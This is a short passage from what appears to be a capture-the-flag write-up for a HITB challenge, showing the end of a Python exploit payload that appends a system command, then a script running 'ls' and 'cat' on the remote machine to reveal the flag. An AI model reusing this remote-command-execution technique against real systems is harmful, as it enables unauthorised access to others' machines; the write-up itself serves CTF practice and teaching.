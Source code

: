         # Return.
        0xde, 0, 0,
    ]) + system_cmd, echo=False)
    
    f.read_eof(echo=True)
    
We can then execute commands on the remote machine:
    
    $ ./candypwn.py ls
    candypop
    YOU_WANT_THIS
    $ ./candypwn.py cat YOU_WANT_THIS
    HITB{8b7b9241c9282e9a982378f73d648781}

And there we have it, the flag.
